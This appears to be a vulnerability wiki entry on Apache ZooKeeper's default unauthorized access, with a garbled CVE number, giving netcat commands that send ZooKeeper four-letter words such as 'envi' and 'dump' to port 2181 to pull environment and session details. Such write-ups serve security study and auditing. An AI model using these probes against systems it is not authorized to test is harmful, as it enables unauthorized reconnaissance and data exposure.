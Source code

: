```yaml
---
Title: Apache ZooKeeper Unauthorized Access Vulnerability CVE-2014-085
---
```


# Apache ZooKeeper Unauthorized Access Vulnerability CVE-2014-085

## Vulnerability Description

By default, the configured zookeeper allows unauthorized access, and the administrator does not configure the access control list (ACL). 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache ZooKeeper</span>

## Vulnerability reappears

Apache ZooKeeper opens `2181 port` by default, and uses the following command to obtain sensitive data.

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/98517179-604b-45d3-8f08-88ac223c1dd7.png)

Other information

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```